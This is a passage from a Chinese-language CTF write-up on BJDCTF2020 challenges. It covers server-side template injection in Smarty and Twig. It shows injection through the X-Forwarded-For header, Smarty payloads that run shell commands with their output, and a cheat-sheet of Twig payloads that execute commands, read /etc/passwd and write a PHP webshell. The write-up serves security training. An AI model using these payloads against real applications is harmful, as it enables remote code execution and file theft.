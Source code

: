 
我们发现使用的是`smarty`模板，我们抓包发现XFF是注入点

![image-20241021213802033](https://gitee.com/bx33661/image/raw/master/path/image-20241021213802033.png)

于是我们尝试是不是模板注入问题

- a{*comment*}b

在Smarty中`{*comment*}`注释符号不会渲染出来

- {$smarty.version}

![image-20241021213941201](https://gitee.com/bx33661/image/raw/master/path/image-20241021213941201.png)

```php
{if system('ls /')}{/if}
/*
          Current IP:bin dev etc flag home lib media mnt opt proc root run sbin
          srv sys usr var
          */

{if system('cat /flag')}{/if}
//Current IP:<?php $flag="flag{b5e17b43-ecc4-4b94-9bf5-619023b5a46e}";
```



#### [BJDCTF2020]Cookie is so stable

---

看题目我们就需要关注cookie，有两个界面

- flag,比较重要，有一个输入框
- hint,这个没啥用

我们尝试输入admin，题目直接输出`hello admin`

这让我们感到ssti的熟悉，尝试`{{7*7}}`

再分析这是一个PHP网站,基本上就是

- twig
- Smarty

Payload:

```
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("cat /flag")}}
```

![](https://gitee.com/bx33661/image/raw/master/path/image-20241024103533563.png)

```php
{{'/etc/passwd'|file_excerpt(1,30)}}
{{app.request.files.get(1).__construct('/etc/passwd','')}}
{{app.request.files.get(1).openFile.fread(99)}}
{{_self.env.registerUndefinedFilterCallback("exec")}}
{{_self.env.getFilter("whoami")}}
{{_self.env.enableDebug()}}{{_self.env.isDebug()}}
{{["id"]|map("system")|join(",")
{{{"<?php phpinfo();":"/var/www/html/shell.php"}|map("file_put_contents")}}
{{["id",0]|sort("system")|join(",")}}
{{["id"]|filter("system")|join(",")}}
{{[0,0]|reduce("system","id")|join(",")}}
{{['cat /etc/passwd']|filter('system')}}
```



